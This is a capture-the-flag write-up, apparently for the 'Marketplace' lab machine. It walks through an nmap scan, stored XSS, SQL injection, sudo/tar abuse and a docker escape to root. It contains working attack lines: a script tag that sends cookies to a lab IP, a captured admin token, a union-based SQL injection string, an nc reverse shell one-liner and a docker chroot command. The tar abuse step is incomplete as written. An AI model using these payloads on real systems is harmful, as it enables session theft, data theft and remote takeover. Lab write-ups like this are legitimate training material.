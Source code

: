 # Marketplace
# Mayank Srivastava | 15 dec 2020
--------------------------------------------------

## Nmap Scan

``` #Nmap 7.91 scan initiated Tue Dec 15 16:06:17 2020 as: nmap -sC -sV -oN nmap/initial 10.10.44.16
 Nmap scan report for 10.10.44.16
Host is up (0.62s latency).
Not shown: 997 filtered ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c8:3c:c5:62:65:eb:7f:5d:92:24:e9:3b:11:b5:23:b9 (RSA)
|   256 06:b7:99:94:0b:09:14:39:e1:7f:bf:c7:5f:99:d3:9f (ECDSA)
|_  256 0a:75:be:a2:60:c6:2b:8a:df:4f:45:71:61:ab:60:b7 (ED25519)
80/tcp    open  http    nginx 1.19.2
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-server-header: nginx/1.19.2
|_http-title: The Marketplace
32768/tcp open  http    Node.js (Express middleware)
| http-robots.txt: 1 disallowed entry 
|_/admin
|_http-title: The Marketplace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Dec 15 16:07:40 2020 -- 1 IP address (1 host up) scanned in 82.97 seconds
```

Found xss vulnerability in both of text box

## running python3 simple http server

``` <script>var i=new Image; i.src="http://10.4.10.4:8000/?"+document.cookie;</script>```

admin token = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE2MDgwMjk3ODN9.vJ9-d2NiJld0S3a5Am7DNkxYuD-ubW_QWg0v1lX5t6g


## Sql Injection

looks like admin panel have sql vulnerability for cross check put" ' " at the end of the url

now we can inject some sql code to access the database also we can try union based sqli attack to read content from the database

/admin?user=0 union select 1,group_concat(message_content,'\n'),3,4 from marketplace.messages-- -

## Enumeration

after found the username and the ssh password

we are on the box

sudo -l 

User jake may run the following commands on the-marketplace:
   (michael) NOPASSWD: /opt/backups/backup.sh

we can abuse tar to gain access on the machine

echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.4.10.4 9001 >/tmp/f" > shell.sh

chmod 777 /opt/backups/backup.tar

nc -nlvp 9001

get connection as michael but user michael is in docker env
we can also exploit docker env using alpine

docker image ls

``` docker run -v / :/mnt --rm -it alpine chroot /mnt sh```

after running this docker alpine we have a root shell 
